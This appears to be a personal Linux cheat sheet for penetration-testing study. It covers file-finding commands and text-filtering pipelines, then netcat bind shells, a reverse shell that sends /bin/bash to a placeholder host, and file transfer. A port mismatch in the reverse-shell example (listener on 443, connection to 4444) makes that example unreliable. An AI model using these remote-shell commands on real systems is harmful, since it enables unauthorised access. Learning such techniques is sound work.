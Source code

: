 # Linux basics
A list of commands and techniques that are useful for getting around the file system and enumerating. I'm writing them down because they're easy to forget or mix up.

## Finding things

There are some basic commands to find files and executables, but each one works differently.

### Locate

Search against an index which must be updated periodically:
```
updatedb
locate nc.exe
```
### Which
Search through directories defined in the `$PATH` environment variable:
```
which gcc
```
### Find
Search recursively through directories: 
```
find / -name cron*
```
### Ls
Never use the basic command, always list directory contents showing owner and including dot files like `bash_history`:
```
ls -la
-rw-------    1 joe  staff   6863 26 Sep 17:12 .bash_history
-rw-r--r--    1 joe  staff    200 23 Jul 14:36 .bash_profile
drwx------  129 joe  staff   4128  1 Oct 15:41 .bash_sessions
```

## Basic Bash scripting
This isn't even really Bash scripting, it's more about how to chain commands together to do useful things.

### Filter
Being able to process text-based files and pull out useful data is a useful skill. For example, to filter out domain names from an HTML file full of other stuff, you can `grep` for something uniquely associated with URLs, then cut out extraneous information:

```
<li><a href="http://newsroom.cisco.com/">Newsroom</a></li> # links you'd find in HTML

grep "href=" file.html | cut -d "/" -f 3
```
In the above example, we are grepping for `href=` which identifies hyperlinks in HTML. We can filter more precisely by looking for recurring characters that help us divide the data into smaller chunks. The command `cut -d "/"` chunks the data and separates it by `/`. The `-f 3` option tells us to filter out the 3rd chunk (field) of data. 

### Sort
Find unique items in a list with duplicates using `sort -u`:
```
grep "href=" file.html | cut -d "/" -f 3 | sort -u
```

### Simple loop
Run the `host` command on every domain in a text file:
```
for url in $(cat list.txt); do host $url; done
```
Grep the output of `host` to find successful lookups:
```
for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u
```
In the above example, you're looking for lines with `has address`, filtering out the URL by using spaces as the delimiter and then removing duplicates with `sort`. 

### Directing output

Direct output to a file with `>`:
```
cat /root/key.txt > /tmp/key.txt
```
Append output to a file with `>>`:
```
cat /root/key.txt >> /tmp/key.txt
```
Direct output to another command with `|`:
```
grep "href=" file.html | cut -d "/" -f 3
```
## Netcat

### Connect to a port
Connect to an open TCP or UDP port (e.g. mail service) to see if it responds:
```
nc -nv [host] 110
(UNKNOWN) [host] 110 (pop3) open
+OK POP3 server ready
```
### Bind shell
Bob (Windows) wants Alice (Linux) to connect to his computer remotely and issue commands. Bob sets up a listener which allows anyone connect to port 443 to issue commands via `cmd.exe`:
```
nc -nlvp 443 -e cmd.exe
```
Alice then connects to Bob's machine and gets a Windows command prompt:
```
nc -nv [bob] 443
```
### Reverse shell
Netcat can also send a command shell to a listening host. Let's say Alice (Linux) wants Bob (Windows) to issue remote commands to her computer. 

Bob sets up a listener on his machine:
```
nc -nlvp 443
listening on [any] 443...
```
Alice then sends control of her command prompt to Bob's machine, via netcat:
```
nc -nv [bob] 4444 -e /bin/bash
```
This is what hackers mean by popping shells, but usually it's getting a web server to send a reverse shell to your attack machine.

### Transfer files
To transfer files, set up a listener and redirect the output to a filename:
```
nc -nlvp 443 > nc.exe # receiving machine
listening on [any] 443...

nc -nv [host] 443 < nc.exe # sending machine pushes file
(UNKNOWN) [host] 443 (?) open
```

## Further reading
* [Linux Journey](https://linuxjourney.com/)

